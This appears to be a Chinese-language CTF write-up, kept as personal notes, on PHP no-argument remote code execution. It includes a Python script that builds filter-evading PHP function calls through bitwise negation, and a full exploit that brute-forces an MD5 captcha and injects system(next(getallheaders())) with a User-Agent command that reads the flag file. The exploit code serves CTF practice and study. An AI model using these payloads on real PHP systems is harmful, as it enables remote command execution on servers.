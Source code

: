 tags:: [[CTFWEB/PHP/无参数RCE]]

- # 思路
	- 使用取反构造任意函数名，并使用[无参数注入]([[CTFWEB/PHP/无参数RCE]])进行RCE
- # 取反构造函数名
	- python脚本如下
	- ```python
	  def get_str(s):
	      return b"[~PAYLOAD][!\xFF]".replace(b"PAYLOAD", bytes(255 - ord(c) for c in s))
	  
	  def payload(lst):
	      if len(lst) == 0:
	          return b";"
	      return b"STRING(SUBPAYLOAD);".replace(b"STRING", get_str(lst[0])).replace(
	          b"SUBPAYLOAD",
	          payload(lst[1:]).replace(b";", b"")
	      )
	  
	  print(payload(["var_dump", "getallheaders"]))
	  ```
- # 利用无参数注入进行RCE
	- 使用`system(next(getallheaders()))`拿到UserAgent并传给`system`函数即可
	- ```python
	  @functools.lru_cache
	  def get_code(md5_head):
	      while True:
	          s = random_chars()
	          if enc_dec.md5_encode(s).startswith(md5_head):
	              return s
	  
	  r = base_get(url)
	  result = re.search(",0,5\)==(.{5})", r.text)
	  assert result is not None
	  captcha = result.group(1)
	  print(captcha)
	  
	  def get_str(s):
	      return b"[~PAYLOAD][!\xFF]".replace(b"PAYLOAD", bytes(255 - ord(c) for c in s))
	  
	  def payload(lst):
	      if len(lst) == 0:
	          return b";"
	      return b"STRING(SUBPAYLOAD);".replace(b"STRING", get_str(lst[0])).replace(
	          b"SUBPAYLOAD",
	          payload(lst[1:]).replace(b";", b"")
	      )
	  
	  r = base_post(url, data = {
	      "cmd": payload(["system", "next", "getallheaders"]),
	      # "code": "1145"
	      "code": get_code(captcha)
	  }, headers = {
	      "User-Agent": "cat /flll1114gggggg"
	  })
	  print(r.text)
	  ```